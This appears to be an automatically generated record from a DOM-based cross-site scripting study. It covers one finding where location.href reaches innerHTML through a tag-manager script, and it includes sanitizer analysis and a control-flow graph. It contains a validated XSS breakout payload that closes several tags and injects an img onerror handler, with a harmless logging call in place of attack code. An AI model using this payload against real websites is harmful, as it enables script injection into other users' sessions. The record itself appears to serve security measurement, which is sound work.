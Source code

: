 // Finding: 545833f0-d62a-41ec-b84e-a6636508dec1
// Finding.url: https://www.example233.com/car-buying/top-monthly-discounts.html##"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('e4b89b3e495049ada18d27be58d2c882')><!--/*
// Finding.parentloc: https://www.example233.com/car-buying/top-monthly-discounts.html##"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('e4b89b3e495049ada18d27be58d2c882')><!--/*
// Finding.domain: www.example233.com
// Finding.base_domain: example233.com
// Finding.source: location.href
// Finding.sink: innerHTML
// Sanitizer.score: 15
// Sanitizer.name: mb[3]
// Sanitizer.location: https://www.example22.com/gtm.js?id=GTM-WSMTS9 - mb[3]:1687:385
// Finding.begin: 335
// Finding.end: 348
// Finding.original_uuid: ff977590-4cd8-4b1d-866b-1c3aaff3fbc0
// Finding.TwentyFiveMillionFlowsId: -260392086
// Finding.script: https://www.example22.com/gtm.js?id=GTM-WSMTS9
// Finding.line: 1699
// Exploit.uuid: e4b89b3e-4950-49ad-a18d-27be58d2c882
// Exploit.success: true
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: attribute
// Exploit.content: href
// Exploit.quote_type: "
// Exploit.tag: a
// Exploit.break_out: #"></iframe></style></script></object></embed></textarea><img src=x onerror=
// Exploit.break_in: ><!--/*
// Exploit.payload: #"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog(1)><!--/*
// Exploit.begin_taint_url: 0
// Exploit.end_taint_url: 61
// Exploit.replace_begin_url: 61
// Exploit.replace_end_url: 61
// Exploit.replace_begin_param: 184
// Exploit.replace_end_param: 184
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: true
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: true
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: -1881187588
// DepGraph.sanitizer_hash: -71061185
// Removed LR concats 
// Approximated Implementation for: replace([\x00- \x22\x27-\x29\x3c\x3e\\\x7b\x7d\x7f\x85\xa0\u2028\u2029\uff01\uff03\uff04\uff06-\uff0c\uff0f\uff1a\uff1b\uff1d\uff1f\uff20\uff3b\uff3d]/g: 1, s: 0, u: 0, m: 0, i: 0 [escapes(<: 1, >: 1, ": 1, ': 1, \: 1,  : 1, (: 1, ): 1, {: 1, }: 1), function_rhs: true], 'function(a){return Jb[a]}') - Other Exception: ReferenceError: Jb is not defined 
// Approximated Implementation for: replace([\x00\x22\x26\x27\x3c\x3e]/g: 1, s: 0, u: 0, m: 0, i: 0 [escapes(<: 1, >: 1, &: 1, ": 1, ': 1), function_rhs: true], 'function(a){return qb[a]}') - Other Exception: ReferenceError: qb is not defined 
digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="encodeURIComponent"];
n2 [shape=box, label="Var: x"];
n3 [shape=ellipse, label="."];
n4 [shape=box, label="Lit: https://sb.scorecardresearch.com/p?c1=2&c2=35121629&c4="];
n5 [shape=ellipse, label="preg_replace"];
n6 [shape=box, label="RegExp: /[\x00- \x22\x27-\x29\x3c\x3e\\\x7b\x7d\x7f\x85\xa0\u2028\u2029\uff01\uff03\uff04\uff06-\uff0c\uff0f\uff1a\uff1b\uff1d\uff1f\uff20\uff3b\uff3d]/"];
n7 [shape=box, label="Lit: "];
n8 [shape=box, label="Var: x"];
n9 [shape=ellipse, label="."];
n10 [shape=box, label="Lit: https://sb.scorecardresearch.com/p?c1=2&amp;c2=35121629&amp;"];
n11 [shape=ellipse, label="preg_replace"];
n12 [shape=box, label="RegExp: /[\x00\x22\x26\x27\x3c\x3e]/"];
n13 [shape=box, label="Lit: "];
n14 [shape=box, label="Var: x"];
n15 [shape=box, label="Var: x"];
n16 [shape=doubleoctagon, label="Return: x"];
n2 -> n0;
n1 -> n2;
n3 -> n4;
n3 -> n1;
n8 -> n3;
n5 -> n6;
n5 -> n7;
n5 -> n8;
n9 -> n10;
n9 -> n5;
n14 -> n9;
n11 -> n12;
n11 -> n13;
n11 -> n14;
n15 -> n11;
n16 -> n15;
}